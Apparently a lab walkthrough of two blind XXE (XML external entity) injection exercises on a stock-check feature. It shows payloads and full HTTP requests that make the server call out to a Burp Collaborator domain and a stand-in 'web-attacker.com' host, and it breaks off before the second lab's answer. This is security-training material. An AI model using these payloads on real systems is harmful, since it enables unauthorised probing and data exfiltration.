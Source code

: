 ### Lab: Blind XXE with out-of-band interaction

This lab has a "Check stock" feature that parses XML input but does not display the result.

You can detect the blind XXE vulnerability by triggering out-of-band interactions with an external domain.

`l9v6h8nay5uhie9moobfyk346vcl0a.burpcollaborator.net`

**Base payload ->**

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://l9v6h8nay5uhie9moobfyk346vcl0a.burpcollaborator.net"> ]>
```

```
POST /product/stock HTTP/1.1
...
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>20</productId>
		<storeId>1</storeId>
	</stockCheck>
```

**Answer ->**

```
POST /product/stock HTTP/1.1
...
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://l9v6h8nay5uhie9moobfyk346vcl0a.burpcollaborator.net"> ]>
	<stockCheck>
		<productId>&xxe;</productId>
		<storeId>1</storeId>
	</stockCheck>
```

### Lab: Blind XXE with out-of-band interaction via XML parameter entities

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

`u833k65hpt0lqm9sq8gg7wbutlzbn0.burpcollaborator.net`

**Base payload ->**

```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

```
POST /product/stock HTTP/1.1
...
<?xml version="1.0" encoding="UTF-8"?>
	<stockCheck>
		<productId>1</productId>
		<storeId>1</storeId>
	</stockCheck>
```
